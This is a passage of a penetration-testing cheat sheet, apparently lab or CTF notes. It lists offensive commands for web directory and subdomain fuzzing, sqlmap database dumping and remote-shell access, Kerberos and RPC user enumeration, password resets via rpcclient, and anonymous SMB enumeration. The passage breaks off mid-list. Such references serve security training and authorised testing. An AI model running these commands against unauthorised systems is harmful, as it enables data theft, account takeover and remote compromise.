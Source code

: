         - `gobuster dir –u <URL> -w <wordlist> -p pattern`
	        - -p=pattern file. So, if 'abc' is picked from wordlist, input to brute force will go as 'abc', 'abc/v1' and 'abc/v2'
- Deep Nested directory enumeration - `feroxbuster -u http://<IP>/ -x <extensions> -w <wordlist> -k`
- Fuzzing Subdomains - `ffuf -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.<base-domain> -t 60`
	- `-fw <words>` → Filter by amount of word
    - `-H 'Host: FUZZ.siteisup.htb'` → If wanna put Fuzzing on any header
    - `-mc 200,302` → Match the HTTP status code we want
    - `-d <data>` → Body  Data for POST Request
    - `-X <HTTP-Method>` → HTTP Method to use
- sqlmap
	- Enumerate DBMS and Technique - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2`
    - Enumerate Database name - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' --dbs`
    - Enumerate Table name - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' -D '<database>' --tables`
    - Enumerate Column name - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' -D '<database>' -T '<table>' --columns`
    - Dump all data - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' -D '<database>' -T '<table>' --dump`
    - For HTTP POST Request - `sqlmap -u '<URL>' --data='<body>' -p '<parameter>' -batch --random-agent --level=2 --risk=2`
    - Alternative way for enumeration - `sqlmap -r '<HTTP-request-file>' -p '<parameter>' -batch --random-agent --level=2 --risk=2`
    - Gain remote shell - `sqlmap -u '<URL>' --os-shell`
#### kerberos-sec
- AD User Enumeration - [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology#user-enumeration)
    - `nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=<user-file> <IP>`
#### msrpc
- Login without password - `rpcclient -U '' --no-pass <IP>`
- Login with password - `rpcclient -U '<domain>/<username>%<password>' <IP>`
- In RPC-CLI
	- Enumerate users - `enumdomusers`
    - Enumerate specific user - `queryuser <user-id>`
    - Display User Information - `querydispinfo`
    - Enumerate groups - `enumdomgroups`
    - Enumerate specific group - `querygroup <group-id>`
    - Enumerate member of group - `querygroupmem <group-id>`
    - Enumerate Domain - `enumdomains`
    - Enumerate Domain SID - `lsaquery`
    - Enumerate Domain Information - `querydominfo`
    - Enumerate Available shares - `netshareenumall`
    - Enumerate Specific share - `netsharegetinfo <share>`
    - Set Password for Target System User - `setuserinfo2 <username> 23 '<password>'`
- Identified exposed RPC Services - `impacket-rpcdump -p 135 <domain>`
#### smb
- Anonymous access allowed
	- Enumerate SMB Shares - 
		- `smbclient -L //<IP>/` → Password: 
		- `crackmapexec smb <IP> -u 'anon' -p '' --shares`
	- Access SMB Shares - `smbclient //<IP>/<sharename>` → Password:
	- Enumerate all information related to SMB - `enum4linux -a <IP>`
	- Password Policy - `crackmapexec smb <IP> --pass-pol`
	- Dump user information - `impacket-samrdump -port 445 -no-pass anon@<IP>`
	- Enumerate Local users - `impacket-lookupsid -port 445 -no-pass anon@<IP>`
- Authenticated access only
	- Enumerate SMB Shares -
